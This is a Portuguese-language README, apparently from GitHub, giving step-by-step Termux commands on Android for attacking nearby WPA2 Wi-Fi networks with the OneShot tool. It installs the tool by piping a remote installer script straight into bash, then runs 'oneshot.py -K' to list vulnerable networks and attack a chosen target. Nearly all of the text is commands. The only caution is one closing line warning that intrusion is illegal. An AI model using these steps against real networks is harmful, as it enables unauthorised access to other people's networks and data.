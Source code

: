 # Testando-Vulnerabilidade-Wifi<br>
Esse teste consiste em acessar versão redes wp2>>>>> Terminal termux>>>>>Android v7<br>
Vamos instalar uns programas ao inicializar>>>>>><br>
$ pkg update ´vamos atualizar repositório`<br>
vamos limpar a tela "clear"<br>
$ termux-change-repo<br>
ums nova janela irá abrir, marcar todas opções<br> 
<img src="id1.png"><br>
Próxima tela>>>>>>>>>>>><br>
<img src="id2.png"><br>
$ pkg upgrade<br>
$ pkg install git<br>
$pkg install python<br>
$pkg install python2<br>
Instalando pio pip fundamental para o próximo passe.<br>
$ pkg install --upgrade pio<br>
$ pkg install --upgrade pip<br>
Instalar a dependencias segue o git clone>>>>>>>>>><br>
curl -sSf https://raw.githubusercontent.com/drygdryg/OneShot_Termux_installer/master/installer.sh | bash<br>
$ ls (pastas)<br>
cd OneShot (***preste atenção O maísculo e S maísculo***)<br>
$ ls<br>
Vamos agora chamar para rodar com sudo no python<br>
$ sudo python oneshot.py -l wlan0 -K <br> 
Termux vai listar possíveis redes vulneráveis de ser hackeadas.<br>
<img src="id3.png"><br>
serão numerados as conexões e escolher >>>>>>>>> alvo e irá comecar scanning.... <br>
<img src="id4.png"><br>
Lembra-se use para seus estudos, invasão de redes é uma violação e poderá responder pelos seus atos com a justiça.<br>
